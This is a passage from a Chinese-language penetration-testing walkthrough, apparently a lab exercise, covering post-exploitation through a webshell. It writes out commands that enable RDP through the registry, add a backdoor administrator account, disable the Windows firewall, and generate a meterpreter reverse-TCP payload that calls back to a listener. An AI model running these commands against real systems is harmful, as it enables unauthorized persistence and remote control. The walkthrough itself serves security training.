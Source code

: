 
### 尝试远程桌面登录

**判断3389端口是否开放**

```text
netstat -ano| find "3389"
```

![image-20230516111958296](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516111958296.png)

在蚁剑shell执行，发现并没有，这里猜测是被防火墙屏蔽了

在蚁剑shell输入一下命令，尝试开放3389端口

```text
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

![image-20230516113222692](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516113222692.png)

新建用户名，并添加到管理员组

```text
net user    查看用户账号名
net user username password /add   新建用户
net localgroup administrators username /add 将新用户添加到管理员组
```

![image-20230516113550048](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516113550048.png)

ps：要注意这里新建用户时，新用户的密码有强度限制，如果设置的太简单将无法添加。

![image-20230516114007149](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516114007149.png)

rdp连不上，可能是被防火墙屏蔽了

关闭防火墙

```
netsh advfirewall set allprofiles state off
```

![image-20230516134541354](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516134541354.png)

随后就可以连接了

# 0x4后渗透

## msf上线

这里的思路是将shell派送给CS或者msf进行下一步渗透。
使用msf生成exe并开启监听(也可以用cs生产exe)：

```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.126.129 LPORT=2333 -f exe -o /root/run.exe
```
